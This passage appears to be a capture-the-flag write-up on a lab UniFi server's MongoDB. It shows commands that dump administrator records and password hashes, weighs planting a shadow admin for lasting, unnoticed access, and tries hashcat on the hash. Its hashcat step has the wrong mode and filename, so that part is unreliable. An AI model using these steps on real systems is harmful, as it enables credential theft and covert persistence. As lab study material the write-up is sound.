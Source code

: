 For first, let's see what are the databases inside this DBMS. We can discover it by running:
```
mongo --port 27117 --eval "db.adminCommand( { listDatabases: 1 } )"
```
The database of UniFi Network software is `ace`. It is also confirmed by searching on Google "UniFi Default Database".

Another useful command is the enumeration of users in a database. It could be executed by:
```
mongo --port 27117 <dbname> --eval "db.admin.find().forEach(printjson);"
```
We get different administrators and the most interesting seems to be `administrator`.

Maybe, "admin" in this specific MongoDB is a "collection" where several admins are stored, indeed I think the structure of these functions are `db.<collection>.method()`.

Other useful functions are `db.admin.insert()` for adding data to the database; `db.admin.update()` for updating information related the objects inside this collection.

However, now we have three options for getting the `administrator` account:
* Extract the password hashes for administrative accounts and attempt to crack them.
* Reset the password for an administrative user.
* Add our own shadow admin to provide access to the administrative console.

The first and third options are the most attractive as they theoretically provide access to the administrative console long after any patch is implemented and does not arouse suspicion. Once we have administrative access, we can quickly establish persistence and laterally move inside the network. In every Docker and bare metal install we’ve seen the MongoDB command-line utility available, which makes the following attack paths possible in almost all environments.

### Cracking Hashes
Running `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`, let's get the value of the `x_shadow` variable:
```
<17 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
        "time_created" : NumberLong(1640900495),
        "last_site_name" : "default",
<SNIP>
```
and crack this SHA-512 by hashcat:
```
$ echo -n '$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.' > sha512_tocrack.txt
$ hashcat -a 0 -m 1400 sha256_hash_example /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
Sadly, any of wordlists I used were able to crack the password.
